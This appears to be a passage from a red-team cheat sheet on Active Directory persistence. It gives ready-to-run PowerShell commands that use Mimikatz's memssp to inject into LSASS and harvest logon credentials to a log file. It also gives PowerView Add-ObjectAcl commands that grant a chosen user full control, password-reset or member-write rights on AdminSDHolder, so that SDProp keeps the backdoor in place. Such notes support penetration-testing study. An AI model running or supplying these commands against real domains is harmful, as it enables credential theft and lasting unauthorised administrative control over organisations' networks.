 Using mimikatz, inject into Isass (Not stable with Server 2016):

```powershell
Invoke-Mimikatz -Command '"misc::memssp"' 
```

> Now you can view all the local logo n logs with the credentials in `C:\Windows\System32\kiwissp.log`
{: .prompt-tip }
# <span style="color:lightblue">ACL - AdminSDHolder</span>

* Resides in the System container of a domain and used to control the permissions - using an ACL - for certain built-in privileged groups (called Protected Groups).

* Security Descriptor Propagator (SDPROP) runs every hour and compares the ACL of protected groups and members with the ACL of AdminSDHolder and any differences are overwritten on the object ACL.

## <span style="color:lightgreen">Invoke-SDPropagator</span>

### <span style="color:#F1C232">Run SDProp manually</span>

```powershell
Invoke-SDPropagator -timeoutMinutes 1 -showProgress -Verbose
```

### <span style="color:#F1C232">For Pre-Server 2008 machines</span>

```powershell
Invoke-SDPropagator -taskname FixUpInheritance -timeoutMinutes 1 -showProgress -Verbose
```

## <span style="color:lightgreen"> Powerview (DEV branch)</span>

### <span style="color:#F1C232">Add full control permissions for a user to the AdminSDHolder</span>

```powershell
Add-ObjectAcl -TargetADSprefix 'CN=AdminSDHolder,CN=System' -PrincipalSamAccountName user1 -Rights All -Verbose
```

### <span style="color:#F1C232">Other Interesting permissions ( Reset-password, Write-members) for a user to the AdminSDHolder</span>

```powershell
Add-ObjectAcl -TargetADSprefix 'CN=AdminSDHolder,CN=System' -PrincipalSamAccountName user1 -Rights ResetPassword -Verbose
Add-ObjectAcl -TargetADSprefix 'CN=AdminSDHolder,CN=System' -PrincipalSamAccountName user1 -Rights WriteMembers -Verbose
```
